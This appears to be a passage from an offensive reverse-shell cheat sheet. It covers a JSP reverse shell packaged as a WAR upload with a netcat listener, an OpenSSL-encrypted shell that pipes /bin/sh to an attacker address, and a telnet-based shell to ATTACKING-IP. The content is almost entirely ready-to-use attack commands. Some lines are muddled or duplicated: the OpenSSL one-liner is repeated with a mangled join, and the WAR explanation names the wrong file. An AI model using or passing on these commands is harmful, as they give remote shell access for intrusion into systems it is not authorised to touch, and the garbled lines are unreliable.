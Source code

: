### File Structure

reverse_shell.war
|
|\_\_reverse\_shell.jsp
|
|_____META-INF/
|
|_____WEB-INF/
|
|____web.xml

### Explanations

web.xml is asking for a reference to /cmd.jsp, when you upload the .war you can then access to /cmd/ directory, just ask cmd.jsp and that's it

```
<IP>/reverse_shell/reverse_shell.jsp
nc -nvlp 443
```

## OpenSSL

### Generate certificate:

`openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes`

### Listener:

```
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>
```

### Reverse Shell:

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s;\
rm /tmp/s mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s;\
rm /tmp/s
```

## Telnet

```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```
